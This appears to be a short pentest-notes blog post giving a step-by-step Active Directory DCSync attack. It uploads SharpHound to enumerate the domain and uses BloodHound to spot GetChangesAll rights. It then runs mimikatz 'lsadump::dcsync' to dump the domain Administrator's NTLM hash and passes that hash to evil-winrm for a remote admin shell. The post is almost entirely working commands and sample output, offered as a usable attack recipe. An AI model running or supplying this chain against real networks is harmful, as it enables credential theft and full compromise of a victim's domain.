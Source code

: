 ```yaml
---
layout: post
title:  "ad - windows - dcsync getchangesall"
date:   2022-01-01
categories: windows
---
```



## AD - DCSync - GetChangesAll


### Target


```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/SharpHound.ps1

PS C:\Users\user\Documents> .\SharpHound.ps1

PS C:\Users\user\Documents> Invoke-BloodHound -CollectionMethod All

or 

PS C:\Users\user\Documents> Invoke-BloodHound -CollectionMethod All -Domain DC0.EXAMPLE.LOCAL -ZipFilename dc.zip

```

### Kali


```bash

sudo neo4j console
bloodhound
```

### Bloodhound Enumeration - GetChangesAll

```text


Select the current user -> Node Info -> First Degree Object Control -> GetChangesAll

```

### Back to Target


```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/mimikatz.exe
PS C:\Users\user\Documents> .\mimikatz.exe "lsadump::dcsync /domain:EXAMPLE.LOCAL /user:Administrator" exit

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 02/07/2020 05:27:04
Object Security ID   : S-1-5-21-<REDACTED>-<REDACTED>-<REDACTED>-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: <NTML HASH VALUE WE WANT>


```

### Evil-Winrm

```powershell

evil-winrm -i 127.0.0.1  -u administrator -H <NTML HASH VALUE WE WANT>

```